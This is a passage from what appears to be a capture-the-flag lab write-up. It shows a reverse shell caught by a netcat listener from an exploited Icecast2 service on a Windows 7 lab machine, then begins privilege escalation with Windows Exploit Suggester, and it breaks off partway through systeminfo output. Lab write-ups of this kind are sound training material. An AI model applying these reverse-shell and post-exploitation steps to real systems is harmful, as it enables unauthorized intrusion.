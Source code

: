Done!
```

If we look back at our netcat listener now:

```
listening on [any] 420 ...                                    
connect to [10.4.18.56] from (UNKNOWN) [10.10.170.34] 49284
Microsoft Windows [Version 6.1.7601]              
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
                                                              
C:\Program Files (x86)\Icecast2 Win32>whoami
whoami
dark-pc\dark
```

We've got a shell as the user Dark!

### Privilege Escalation
Now that we have a shell we have a number of ways of trying to identify valid pathways for privilege escalation. 
This time we're going to use the Windows Exploit Suggester. It's available here: <https://github.com/AonCyberLabs/Windows-Exploit-Suggester>

We needed to install pip for python2 and install the xlrd module before it would run: 

```
#wget the get-pip.py file 
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py 
#Run the file with python2 get-pip.py 
python2 get-pip 
#Install xlrd==1.1.0 python2 -m pip install --user xlrd==1.1.0 
```

Before we can use the exploit suggester, we first have to get the Windows system information. We can do this with systeminfo:

```
C:\Program Files (x86)\Icecast2 Win32>systeminfo
systeminfo

Host Name:                 DARK-PC
OS Name:                   Microsoft Windows 7 Professional 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          Dark
Registered Organization:   
Product ID:                00371-177-0000061-85305
Original Install Date:     11/12/2019, 4:48:23 PM
System Boot Time:          9/22/2021, 12:18:37 AM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-06:00) Central Time (US & Canada)
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,498 MB